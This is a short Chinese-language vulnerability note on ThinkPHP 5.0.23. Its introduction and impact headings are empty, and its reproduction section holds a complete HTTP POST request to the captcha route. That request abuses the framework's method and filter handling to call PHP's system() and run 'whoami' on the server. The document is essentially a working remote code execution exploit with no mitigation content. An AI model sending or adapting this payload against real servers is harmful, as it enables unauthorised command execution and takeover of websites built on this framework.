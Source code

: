 # Thinkphp 5.0.23

> 原文：[http://book.iwonder.run/0day/Thinkphp/9.html](http://book.iwonder.run/0day/Thinkphp/9.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
POST /index.php?s=captcha HTTP/1.1
Host: yuorip
Accept-Encoding: gzip, deflate
Accept: */* Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami 
```

